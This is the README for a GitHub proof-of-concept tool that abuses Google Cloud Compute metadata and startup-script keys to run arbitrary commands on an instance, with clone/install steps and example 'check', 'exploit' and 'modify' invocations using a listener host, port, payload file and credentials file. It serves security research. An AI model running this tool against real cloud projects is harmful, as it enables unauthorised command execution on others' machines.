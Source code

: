 # GCP Metadata API Abuse "PoC" (gce-s3r1al.py)
A script to take advantage of a unique design in Google Cloud's Compute API capabilities and implementation of Metadata keys.
**This is for testing and educational purposes only and comes with no warranty.**

## Overview
**This is based on research conducted by the Andrew Johnson at Mitiga - check out the original [blog post here](https://www.mitiga.io/blog/misconfiguration-hidden-dangers-cloud-control-plane)**
To get more information on this capability, the inner workings behind it, and other information, go check out the extensive blog post I wrote about developing this "PoC" [here](https://mgior.com/google-cloud-misconfiguration-poc/). At some point I will translate a lot of the high-level information from the blog post and include it in this README.

## Usage
To get started, first clone the repository and install the required Python libraries
```
git clone https://github.com/mikegior/gce-s3r1al
cd gce-s3r1al/
pip3 install -r requirements.txt
```

The script has three commands you can use:
- **`check`** - check roles associated with the account you have access to to determine if required roles are present
- **`exploit`** - set the startup-script and s3r1al metadata keys and values to the specified instance
- **`modify`** - modify the s3r1al metadata key's value to an arbitrary command to execute

Prior to using this script, you will need install required Python libraries first. To do this,

Example usage for each command:
```sh
$ python3 gce-s3r1al.py check --authfile creds.json
$ python3 gce-s3r1al.py exploit --host 1.2.3.4 --port 8000 --payloadfile metalisten.sh --authfile creds.json --project serial-poc-1 --zone us-central1-a --instance poc-instance
$ python3 gce-s3r1al.py modify --authfile creds.json --project serial-poc-1 --zone us-central1-a --instance poc-instance
```

The blog post outlines more about each command and the anticipated output.